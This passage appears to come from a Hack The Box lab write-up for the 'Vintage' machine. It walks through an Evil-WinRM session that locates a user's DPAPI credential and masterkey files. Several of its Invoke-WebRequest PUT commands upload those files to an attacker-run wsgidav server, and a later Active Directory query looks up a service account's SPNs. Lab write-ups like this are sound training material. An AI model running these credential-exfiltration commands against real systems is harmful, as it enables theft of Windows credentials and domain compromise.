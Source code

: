 In the following directory we can find the microsoft credentials:
```sh
C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials
```

`use DPAPI to obtain Windows identity credentials and Using dir -h to list hidden files in powershell:`
```sh
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials> dir -h

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          6/7/2024   5:08 PM            430 C4BB96844A5C9DD45D5B6A9859252BA6

download C4BB96844A5C9DD45D5B6A9859252BA6
```
The above didn't work and crashed winrm even after reset. 


#### File transfer wsgidav server
So I used wsgidav server. 
```sh
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/hacker/htb/vintage/
```

```sh
Invoke-WebRequest -Uri "http://10.10.14.31/99cf41a3-a552-4cf7-a8d7-aca2d6f7339b" -Method PUT -InFile "C:\Users\c.neri\AppData\roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\99cf41a3-a552-4cf7-a8d7-aca2d6f7339b"
```

```sh
Invoke-WebRequest -Uri "http://10.10.14.31/4dbf04d8-529b-4b4c-b4ae-8e875e4fe847" -Method PUT -InFile "C:\Users\c.neri\AppData\roaming\Microsoft\Protect\S-1-5-21-4024337825-2033394866-2055507597-1115\4dbf04d8-529b-4b4c-b4ae-8e875e4fe847"
```

```sh
Invoke-WebRequest -Uri "http://10.10.14.31/C4BB96844A5C9DD45D5B6A9859252BA6" -Method PUT -InFile "C:\Users\c.neri\AppData\Roaming\Microsoft\Credentials\C4BB96844A5C9DD45D5B6A9859252BA6"
```
#### Import PS active directory module 
```sh
Import-Module ActiveDirectory
```
```sh
Get-ADUser -Identity svc_sql -Properties ServicePrincipalNames

DistinguishedName     : CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
Enabled               : False
GivenName             :
Name                  : svc_sql
ObjectClass           : user
ObjectGUID            : 3fb41501-6742-4258-bfbe-602c3a8aa543
SamAccountName        : svc_sql
'ServicePrincipalNames : {}'
SID                   : S-1-5-21-4024337825-2033394866-2055507597-1134
Surname               :
UserPrincipalName     :
```
